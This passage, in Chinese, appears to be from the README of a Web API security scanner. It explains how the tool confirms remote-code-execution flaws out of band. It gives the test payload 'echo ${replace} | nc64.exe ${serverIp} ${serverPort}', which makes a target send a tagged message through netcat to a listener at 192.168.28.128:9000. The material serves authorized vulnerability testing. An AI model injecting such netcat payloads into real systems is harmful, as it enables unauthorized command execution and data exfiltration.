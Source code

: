 如果载荷攻击成功，目标系统会向预先指定服务器和指定端口发送带有编号的信息。同时Web API 安全检测系统会向“http://serverIP:filePORT/fileNAME”发起请求，获取文件内容，并搜索文件内容是否存在某个报文的编号，如果存在则表明测试成功，否则表明测试失败。

①首先在服务器上运行上述两段代码，并在服务器判断方法中输入serverIP、serverPORT、fileNAME、filePORT，如下所示

![image-20230430234317235](README.assets/image-20230430234317235.png)

②测试RCE漏洞，使用载荷echo ${replace} | nc64.exe ${serverIp} ${serverPort}，其中系统会替换${replace}为每个包的ID，才能区分不同报文,${serverIp}、${serverPort}替换为192.168.28.128、9000。同时选择服务器判断方式。

![image-20230430234559636](README.assets/image-20230430234559636.png)

③点击Start按钮，可以看到1774649420的报文测试成功。

![image-20230430234701927](README.assets/image-20230430234701927.png)
